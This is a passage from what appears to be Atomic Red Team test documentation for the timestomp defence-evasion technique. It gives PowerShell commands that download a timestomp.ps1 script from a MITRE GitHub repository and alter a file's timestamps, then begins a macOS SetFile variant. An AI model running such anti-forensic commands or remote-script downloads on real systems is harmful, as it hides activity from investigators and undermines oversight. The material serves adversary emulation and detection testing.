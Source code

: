 
#### Attack Commands: Run with `powershell`! 


```powershell
import-module "#{file_path}\timestomp.ps1"
timestomp -dest "#{file_path}\kxwn.lock"
```




#### Dependencies:  Run with `powershell`!
##### Description: timestomp.ps1 must be present in #{file_path}.
##### Check Prereq Commands:
```powershell
if (Test-Path "#{file_path}\timestomp.ps1") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://raw.githubusercontent.com/mitre-attack/attack-arsenal/bc0ba1d88d026396939b6816de608cb279bfd489/adversary_emulation/APT29/CALDERA_DIY/evals/payloads/timestomp.ps1" -OutFile "#{file_path}\timestomp.ps1"
```
##### Description: kxwn.lock must be present in #{file_path}.
##### Check Prereq Commands:
```powershell
if (Test-Path -path "#{file_path}\kxwn.lock") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Path "#{file_path}\kxwn.lock" -ItemType File
```




<br/>
<br/>

## Atomic Test #9 - MacOS - Timestomp Date Modified
Stomps on the modification timestamp of a file using MacOS's SetFile utility

**Supported Platforms:** macOS


**auto_generated_guid:** 87fffff4-d371-4057-a539-e3b24c37e564





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_filename | Path of file that we are going to stomp on last modified time | path | /tmp/T1070.006-modified.txt|
| target_date | Date to replace original timestamps with | string | 01/01/1970|
